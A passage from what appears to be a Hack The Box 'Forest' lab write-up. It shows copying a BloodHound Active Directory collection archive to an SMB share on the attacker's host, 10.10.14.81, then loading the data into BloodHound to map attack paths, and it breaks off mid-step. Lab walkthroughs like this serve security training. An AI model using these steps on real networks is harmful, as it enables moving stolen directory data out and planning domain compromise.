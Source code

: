 ```
copy 20230426020822_BloodHound.zip \\10.10.14.81\\Q\\
```
- Verify in your computer that file has been transfered successful by checking folder in which smbserver was started
- with data that i have, i will open it with bloodhound

```
sudo neo4j console
```

- In another terminal,

```
bloodhound
```

- Then import data to bloodhound and start analysis
- The following below will take through upload and analysis

[![Forest Upload Data to bloodhound](/assets/img/HTB/easy/Forest/VF.png)](https://youtu.be/t3HOsqy2wqE)

- Checking Shortest path from owned principal in sAnalysis ,You will see the following
